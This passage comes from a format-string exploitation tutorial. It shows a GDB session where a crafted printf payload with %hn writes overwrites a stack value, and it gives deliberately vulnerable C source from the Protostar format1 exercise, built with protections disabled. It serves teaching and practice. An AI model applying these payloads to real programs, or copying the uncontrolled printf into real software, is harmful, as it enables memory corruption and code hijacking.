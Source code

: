 Let's try that in GDB.

```nasm
gdb-peda$ b *0x00400665 ; Break @printf()
Breakpoint 1 at 0x400665
gdb-peda$ b *0x0040066a ; Break right after printf()
Breakpoint 2 at 0x40066a
gdb-peda$ run < <(python -c 'print "\xac\xf6\xff\xbf\xae\xf6\xff\xbf%47798x%7$hn%4160x%8$hn"')
Starting program: /home/user/format1 < <(python -c 'print "\xac\xf6\xff\xbf\xae\xf6\xff\xbf%47798x%7$hn%4160x%8$hn"')

Breakpoint 1, 0x00400665 in main ()
gdb-peda$ x/x 0xbffff6ac
0xbffff6ac:	0xdeadc0de ; Before printf()
gdb-peda$ conti
Continuing.
????????   

Breakpoint 2, 0x0040066a in main ()
gdb-peda$ x/x 0xbffff6ac
0xbffff6ac:	0xcafebabe ; After printf()          

gdb-peda$ conti
Continuing.
Good job !
[Inferior 1 (process 1118) exited normally]
Warning: not running or target is remote          
```

Done ! It's not that easy to grasp the concept but with some practice you'll get it !

## Use Cases

We got the concept. Now, we'll try some practical exercises to make sure you master this skill !

### Random Write

Let's start with a simple one. Here we got a *target* variable, the goal is to replace this value with anything to make the condition true. FYI, unitialized variables are set to 0.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -static -z execstack -z norelro -fno-stack-protector -o format1 format1.c
// Ref. https://exploit-exercises.com/protostar/format1/

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
